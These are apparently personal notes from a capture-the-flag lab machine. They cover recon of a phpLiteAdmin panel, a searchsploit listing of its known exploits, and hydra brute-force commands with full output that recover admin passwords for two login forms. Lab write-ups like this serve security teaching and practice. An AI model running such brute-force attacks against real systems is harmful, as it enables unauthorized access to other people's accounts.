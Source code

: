# Port 443

- /db/ tells us that this is a PHP based web site
![[Pasted image 20210330015253.png]]
- phpLiteAdmin hosted on /db. phpLiteAdmin is SQLite based. v1.9
- Searchsploit Exploits
```bash
searchsploit phpliteadmin                                                                                     2 ↵
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                                | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                         | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                      | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                       | php/webapps/39714.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results

```
- We need remote code execution, but for that we need a valid user. The request is below:
```html
POST /db/index.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.43/db/
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://10.10.10.43
Connection: close
Cookie: PHPSESSID=6am0khatc9bb9p5gddbepd2v83
Upgrade-Insecure-Requests: 1

password=sad&remember=yes&login=Log+In&proc_login=true
```
- Using hydra for bruteforcing
```sudo hydra -l admin -P $ROCK 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-31 01:08:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
[STATUS] 582.00 tries/min, 582 tries in 00:01h, 14343816 to do in 410:46h, 16 active
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-31 01:10:51
```
- We found a valid credential --> admin:password123
- 
# Port 80

- We find another page called as /department which provides us with a login page.
- We can bruteforce it too, using hydra. The request page is below

```html
POST /department/login.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.10.43
Connection: close
Referer: http://10.10.10.43/department/login.php
Cookie: PHPSESSID=6am0khatc9bb9p5gddbepd2v83
Upgrade-Insecure-Requests: 1

username=admin&password=trial
```
- Using hyra for password bruteforcing
```bash
sudo hydra -l admin -P $ROCK 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password"
[sudo] password for norman: 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-31 00:59:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password
[STATUS] 1031.00 tries/min, 1031 tries in 00:01h, 14343367 to do in 231:53h, 16 active
    
[STATUS] 1041.67 tries/min, 3125 tries in 00:03h, 14341273 to do in 229:28h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-31 01:03:41

```
- We found a password --> admin:1q2w3e4r5t


